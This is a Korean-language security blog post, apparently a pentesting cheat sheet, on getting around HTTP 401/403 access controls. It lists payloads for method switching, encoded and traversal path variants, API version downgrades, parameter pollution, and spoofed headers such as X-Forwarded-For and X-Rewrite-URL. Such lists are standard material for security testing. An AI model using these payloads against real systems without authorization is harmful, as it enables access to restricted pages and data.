 ```yaml
---
layout: single2
title:  401&403(Access Control) Bypass
categories: Web-vuln
tag: [403, 401, Forbidden, access control, 403 bypass]
toc: true
author_profile: false
---
```


## HTTP 상태코드 401&403
> 특정 페이지들을 살펴보다 보면, HTTP 상태코드로 401 또는 403으로 반환되는 경우가 종종 있다.  이 두 종류의 코드는 무엇일까?

### 401 Unauthorized
> HTTP 표준에서 Unatuhorized(미승인)으로 명시하고 있지만 해당 응답의 경우 비 인증을 의미할 수 있다. 즉  클라이언트 측에서 요청을 보내게 되면, 서버로 부터의 응답을 받기 위해 인증이 이루어져야 한다는 것이다.

### 403 Forbidden
> 흔히 볼 수 있는 응답코드로 권한과 관련되어있다. 해당 요청 클라이언트가 요청한 콘텐츠에 접근할 권한을 가지고 있지 않음을 나타낸다. 서버측에서 해당 클라이언트의 접근을 거부한다는 것이다.

# Bypass 401&403

HTTP 상태코드인 401과 403은 웹 사이트 정찰 과정에서 정말 많이 만나게된다.
<br>
이러한 상태코드를 우회할 수 있는 방법은 여러가지가 존재하며, 해당 상태 코드를 만나게 되었을 때
<br>
한번쯤 시도해볼만 하다.
1. **HTTP Method 변경**  : (GET, POST, PUT, DELETE) 등과 같은 Method를 사용하여 접근을 시도해볼 수 있다.
2. **URL 인코딩 변경** : 요청 URL을 인코등 혹인 더블 인코딩 또는 유니코드 인코딩을 통해 우회 시도를 해볼 수 있다.
3. **Path Traversal** : ‘./’ 과 같은 경로조작을 통해 우회 시도를 해볼 수 있다.
4. **대소문자 변경** : 대소문자를 구별하지 않을 수 있으니, 대소문자 변경을 통해 우회 시도를 해볼 수 있다.
5. **HTTP Header 조작** : x-Forwarded, referer 와 같은 헤더를 통해 서버를 속여 우회 시도를 해볼 수 있다.
6. **URL Fragment 삽입** : URL 끝단에 Fragment를 삽입함으로써 우회를 시도해볼 수 있다.

## 1. HTTP Method 변경
HTTP 요청 Requests에는 여러 종류의 Method가 존재한다. 이를 다양하게 변경하여 요청하는것도 좋은 테스팅 방법일 수 있다.
<br>
POST 요청에서 사용되는 방식을 GET 형식으로 파라미터를 통해 요청이 가능하다.

```
methods:
    - GET
    - HEAD
    - POST
    - PUT
    - DELETE
    - CONNECT
    - OPTIONS
    - TRACE
    - PATCH

GET /admindirectory/ HTTP/1.1
POST /admindirectory/ HTTP/1.1
PUT /admindirectory/ HTTP/1.1
HEAD /admindirectory/ HTTP/1.1
```
> 추가적으로 User-Agent를 조작하여서도 우회가 가능하다.

웹 브라우저에 access 할 때 사용하는 브라우저/OS 등에 따라 제공하는 서비스가 다를 수 있다.

## 2. URL 인코딩 변경
> .. 와같은 문자들을 여러 종류의 인코딩 방법으로 우회가 가능하다.

```
Original: //admin
URL: /%2fadmin
DURL: /%252fadmin
Unicode: /%ef%bc%8fadmin
```

## 3. Path Traversal
> Path Traversal 취약점을 응용하여 401 또는 403 상태코드를 우회할 수 있다.

```
target.com/secret
target.com/%2e/secret
/secret%20
/secret%09
/secret%00
/%90/secret
/%2e/secret
/secret/
/secret/.
//secret//
/./secret
/;/secret
/.;secret
//;//secret
/secret..;/
/secret/..;/
/secret.json
/secret.css
/secret.html
/secret?
/secret??
/secret???
/secret?testparam
/secret#
/secret#test
/...
/..%00
/..%01
/..%0a
/..%0d
/..%09
/~root
/~admin
/%20/
/%2e%2e/
/%252e%252e/
/%c0%af/
/%e0%80%af
site.com/secret/
site.com/secret/.
site.com//secret//
site.com/./secret/..
site.com/;/secret
site.com/.;/secret
site.com//;//secret
site.com/secret.json –> HTTP 200 OK (ruby)
```

## 4. 대소문자 변경

```
Original: /admin
Upper: /ADMIN
```

기타 API 사용할 경우 버전변경을 통해서도 가능하다
{% raw %}
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
{"user_id":"<legit_id>","user_id":"<victims_id>"} (JSON Parameter Pollution)
user_id=ATTACKER_ID&user_id=VICTIM_ID (Parameter Pollution)
```
{% endraw %}
## #프로토콜 변경을 통해서도 가능하다.

```
protocol_versions:
    - "0.9"
    - "1.0"
    - "1.1"
    - "2"

https://trust.com -> 200 403 or 401
http://trust.com -> 200 ok
```

## 5. HTTP Header 조작
일부 HTTP Header 은 클라이언트의 IP 혹은 HOST 정보를 속일 수 있다.
<br>
예를 들어 IP 주소 필터링에만 의존하는 웹 서버가 존재한다면 X-Forwarded-For 헤더를 사용해서
<br>
손쉽게 우회를 시도해볼 수 있다.

```
사용가능 HTTP 요청 헤더
    - X-Forwarded-For
    - X-Forward-For
    - X-Forwarded-Host
    - X-Forwarded-Proto
    - Forwarded
    - Via
    - X-Real-IP
    - X-Remote-IP
    - X-Remote-Addr
    - X-Trusted-IP
    - X-Requested-By
    - X-Requested-For
    - X-Forwarded-Server
		- Host: localhost
		- X-ProxyUser-I
		- Redirect: http://localhost
    - Referer: http://localhost
    - X-Original-URL
''' 등등
```

## 6. URL Fragment 삽입

```
https://trust.com -> 200 403 or 401
http://trust.com#fragment -> 200 ok
```

## 7. X-Rewirte-URL 헤더를 통한 경로 재지정
> X-Rewrite-URL 헤더를 허용하는 서버가 존재한다면, 접근 제한이 걸린 페이지를 백엔드에서 url을 설정 하여 접근할 수 있다.

```
GET /admin/ HTTP/1.1 -> 403

GET / HTTP/1.1 -> 200 ok
X-Rewrite-URL: /admin/
```

# Referance
- https://www.hahwul.com/2021/10/08/bypass-403/
- https://www.codelivly.com/401-403-bypass-cheatsheet/
- https://www.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses